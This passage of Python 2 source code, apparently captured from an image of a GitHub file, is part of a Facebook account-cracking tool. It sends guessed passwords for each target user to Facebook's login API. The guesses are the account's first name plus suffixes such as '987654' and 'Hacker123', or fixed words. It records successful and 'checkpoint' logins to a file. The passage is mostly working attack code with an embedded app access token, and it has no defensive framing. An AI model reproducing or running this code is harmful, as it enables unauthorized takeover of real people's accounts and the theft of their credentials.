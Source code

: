 							print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass2
							cek = open("out/checkpoint.txt", "a")
							cek.write(user+"|"+pass2+"\n")
							cek.close()
							cekpoint.append(user+pass2)
						else:
							pass3 = b['first_name'] + '987654'
							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)
							if 'access_token' in q:
								print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass3
								oks.append(user+pass3)
							else:
								if 'www.facebook.com' in q["error_msg"]:
									print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass3
									cek = open("out/checkpoint.txt", "a")
									cek.write(user+"|"+pass3+"\n")
									cek.close()
									cekpoint.append(user+pass3)
								else:
									pass4 = 'Pakistan'
									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if 'access_token' in q:
										print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass4
										oks.append(user+pass4)
									else:
										if 'www.facebook.com' in q["error_msg"]:
											print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass4
											cek = open("out/checkpoint.txt", "a")
											cek.write(user+"|"+pass4+"\n")
											cek.close()
											cekpoint.append(user+pass4)
										else:
											pass5 = b['first_name'] + 'qwertyuiop'
											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)
											if 'access_token' in q:
												print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass5
												oks.append(user+pass5)
											else:
												if 'www.facebook.com' in q["error_msg"]:
													print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass5
													cek = open("out/checkpoint.txt", "a")
													cek.write(user+"|"+pass5+"\n")
													cek.close()
													cekpoint.append(user+pass5)
												else:
													pass6 = b['first_name'] + 'Hacker123'